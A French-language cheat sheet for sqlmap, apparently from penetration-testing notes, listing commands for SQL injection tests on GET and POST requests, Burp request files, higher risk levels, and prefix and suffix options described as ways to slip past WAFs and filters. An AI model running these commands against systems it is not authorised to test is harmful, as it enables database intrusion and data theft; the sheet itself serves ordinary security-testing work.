 https://github.com/sqlmapproject/sqlmap

#### 🔍 Commande de base (GET)

```bash
sqlmap -u http://domain.com/truc?oups=1
```

Effectue un **test d’injection SQL** sur un **paramètre GET**.

#### 📡 Commande de base (POST)

```bash
sqlmap -u http://domain.com/truc --data "user=oups&pass=oulah"
```

Exécute un **test d’injection SQL** sur une **requête POST**.

#### 📜 Scanner une requête depuis Burp Suite

```bash
sqlmap -r req.txt
```

Lit la requête depuis un **fichier enregistré avec Burp Suite** et teste l’injection SQL.

#### ⚠️ Augmenter le niveau de risque et le nombre de tests

```bash
sqlmap -r req.txt --level 5 --risk 3
```

> [!Astuce]
> - `--level 5` → **Effectue plus de tests** (augmente la couverture)
> - `--risk 3` → **Augmente l'agressivité** (potentiellement plus destructeur)

#### 📌 Définir un suffixe (utile pour contourner les WAFs)

```bash
sqlmap -r req.txt --suffix="-- "
```

Ajoute un **suffixe** à la charge utile (ex: `--` pour commenter la requête SQL).

#### 📌 Définir un préfixe (utile pour échapper un filtre)

```bash
sqlmap -r req.txt --prefix="') "
```

Ajoute un **préfixe** à la charge utile (ex: `')` pour briser une requête existante).

#### 🍪 Définir un cookie spécifique

```bash
sqlmap --cookie="lecookie"
```

Utilise un **cookie d’authentification** spécifique pour le test.

#### 🗑️ Réinitialiser la session SQLMap

```bash
sqlmap --flush-session
```

Supprime les résultats stockés de précédentes sessions SQLMap.

